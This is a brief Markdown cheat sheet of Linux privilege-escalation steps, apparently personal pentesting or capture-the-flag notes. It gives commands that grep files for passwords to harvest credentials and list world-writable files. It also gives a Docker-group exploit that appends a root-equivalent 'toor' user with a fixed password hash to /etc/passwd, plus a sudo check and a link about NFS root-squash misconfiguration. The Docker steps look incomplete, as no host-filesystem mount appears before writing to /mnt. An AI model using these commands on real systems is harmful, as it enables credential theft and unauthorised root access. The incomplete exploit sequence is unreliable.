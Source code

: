## Enum
### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Some common exploit

### Docker
How to spot
```
lse check user in docker group
```
Exploit
```
docker images
cd /
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
su toor
password
```

### Check sudo
```
sudo -l
```

### no-root-squash nfs
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

